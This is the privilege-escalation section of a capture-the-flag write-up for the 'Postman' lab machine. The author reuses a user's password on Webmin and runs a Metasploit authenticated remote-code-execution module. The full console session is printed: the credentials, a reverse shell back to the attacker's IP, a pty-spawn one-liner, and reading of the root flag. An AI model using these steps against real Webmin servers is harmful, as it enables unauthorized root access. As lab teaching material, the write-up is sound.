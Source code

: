 ## Privilege Escalation

### Matt to root

Having access as Matt now, I run the linux enumeration script `LinEnum.sh` for more enumeration but nothing really popped out except noticing that the process for Webmin was running as user root. Thus based on my initial enumeration of the TCP port 10000 we could leverage this and gain access as root. As the Webmin vulnerability required authentication, it's possible Matt's access could be used on the Webmin application(think credential reuse). I tried using Matt's access and I successfully logged in. Therefore I can use this to gain root access using authenticated remote code execution.

<img src="/assets/images/postman/tcp-10000-auth-login.png">

Using searchsploit, I found a module available in metasploit to exploit this Webmin vulnerability and used the module to gain access to the system as root:

```
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 10.10.10.160
RHOSTS => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.15.136
LHOST => 10.10.15.136
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.15.136:4444
[+] Session cookie: b8efe036b7567d915ae55d96208b260e
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.15.136:4444 -> 10.10.10.160:37934) at 2019-12-03 22:07:08 +0000
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/#

root@Postman:/usr/share/webmin/package-updates/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
cat /root/root.txt
a257741..............
root@Postman:/usr/share/webmin/package-updates/#
```
